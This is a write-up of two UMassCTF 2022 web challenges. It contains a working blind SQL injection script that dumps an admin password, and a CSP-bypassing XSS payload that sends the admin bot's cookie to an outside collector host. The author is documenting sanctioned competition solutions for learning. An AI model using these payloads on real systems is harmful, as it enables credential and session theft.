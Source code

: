 ```yaml
---
title: UMassCTF 2022
author: HoangND
date: 2022-04-03 00:00:00 +0700
categories: [Writeups, UmassCTF 2022]
tags: [sqli, dom xss]
---
```


I haven't released any CTF writeups for a long time. Today i done 2 web challenge in UmassCTF so i decided writing something.

# Venting

![image](https://user-images.githubusercontent.com/61985236/161438032-f27b69b3-95c2-4fb2-9edf-2c390c2dc73b.png)

After tried web features, the proxy history showed me 1 interest endpoint.

![image](https://user-images.githubusercontent.com/61985236/161438156-c058349d-729f-497d-936e-1cde76e9243b.png)

Just change admin=True and we will get admin login page. Trying put ' in an textbox give me that this is sql injection challenge.

I tried dumped admin's password by the following script and get the flag.

```python
import requests

passwd = ''
    
for i in range(36):
    for x in range(127, 31, -1):
        c = chr(x)
        basepl = {
            "user": "admin",
            "pass": "1' or (SELECT hex(substr(password,{},1)) FROM users WHERE+username='admin') > hex('{}') and 'a'='a".format(i+1, c)
        }
        res = requests.post(
            'http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/login', data=basepl, verify=False)
        # print(c+'  :  '+str(len(res.text)))
        if len(res.text) == 113:
            passwd += chr(x+1)
            break

    print(passwd)

```

# Umassdining

![image](https://user-images.githubusercontent.com/61985236/161434067-5c5d653a-9c04-43e4-810d-71f0c92c829d.png)

The source code is given in the challenge's description but I checked web features first. The web navigation shows us 3 options: Home, Register, Join. Register is basically for registration, after fill the form we got the message 'We got your request and will read it shortly!'. Join navigation is maybe administrator feature because the message 'You're not allowed here!' appeared. Next we audit the source code. This web has the following 3 main endpoint

```python
@app.route("/register",methods = ['GET','POST'])
def get_register():
    if(request.method=='GET'):
        response = make_response(render_template('register.html'))
        add_resp_headers(response);
        if(check_for_cookie()==False):
            response.set_cookie("auth","-1",secure=True,samesite=None)
        return response
    elif(request.method=='POST'): 
        if(active_count()<10):
            data = request.form.to_dict()
            thread = Thread(target=bot.checkEssay,kwargs={'data':data})
            thread.start()
            return "We got your request and will read it shortly!",200
        else:
            return "We are busy right now, try again in a second",200

@app.route("/review/essay",methods = ['GET','POST'])
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200

@app.route("/join",methods = ['GET'])
def get_play():
    if(request.cookies.get("auth")==admin_cookie):
        return "TEST{not_the_real_flag}",200
    return "You're not allowed here!",403
```

Endpoint /join checks auth cookie and only returns flag if it is admin cookie. I need to get the admin token by somehow. /register forwards request data to bot.checkEssay

```python
def checkEssay(data):
    opts = Options()
    opts.add_argument("--headless")
    driver = Firefox(executable_path='/usr/bin/geckodriver',options=opts)
    driver.set_window_size(320, 240)
    driver.set_page_load_timeout(5)
    driver.get('http://127.0.0.1:8000/')
    driver.add_cookie({"name":"auth","value":admin_cookie})
    driver.get('http://127.0.0.1:8000/review/essay?email={a}&essay={b}'.format(a=data['email'],b=data['essay']))    
    time.sleep(3)
    driver.quit()
```

The above section takes data from register endpoint, add admin's cookie to cookie and make request to the last of 3 endpoints - /review/essay, maybe i could leak the cookie from this. Look /review/essay handler

```python
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200
```

Check the essay_checker template returned by the above handler

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Essay Review</title>
</head>
<body>
    <h1> 
        Essay Review Panel
    </h1><br>
    <div>
        <main>
            Essay<br> 
            {{essay.essay|safe}}<br>
            Author<br>
            {{essay.email}}<br>
        </main>
    </div>
</body>
</html>
```

The jinja2's safe filter is used in essay property of essay object. The safe filter basically disables html-escape in the expression passed through it while rendering html page. It's maybe vulnerable to XSS exploit and i can make outbound request to get admin's cookie. I tried some basic payload but it didn't work, my outbound server didn't get any requests. The reason is the following

![image](https://user-images.githubusercontent.com/61985236/161436404-6ad54892-f973-4b15-8e6a-f7b945b99f17.png)

```python
def add_resp_headers(response):
    response.headers['Content-Security-Policy']= "default-src 'self';script-src 'self' 'unsafe-eval'"
```

The above section adds CSP header to response that restrict browser can only load resource from the current origin. It literally means all directly payloads from our essay param won't work. For more information about CSP, you can read [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy). I checked static folder and expected there was any usefull javascript file in it. And i saw things.js

```javascript
var iloveumass = document.getElementById("debug").getAttribute("data-iloveumass");
function say_something(words)
{
    setTimeout(`console.log('${words}')`,500)
}
document.addEventListener("DOMContentLoaded", function() {
    say_something(iloveumass)
});
```

This script gets the html element with id 'debug', takes 'data-iloveumass' attribute from it and passes it to vulnerable setTimeout function call. We can manipulate this file to bypass CSP protection. Final payload is the following

```html
<script id='debug' src="/static/js/thing.js" data-iloveumass="aaa');eval(document.location='http://hoangnd.free.beeceptor.com?cookie='%2bdocument.cookie);console.log('aaa"></script>
```

Put it in essay in register form, and an request will be made to your server.

![image](https://user-images.githubusercontent.com/61985236/161437862-27d1340d-9516-4ecc-b6e2-27f02e629e92.png)

Add admin's cookie to /join endpoint and get flag.





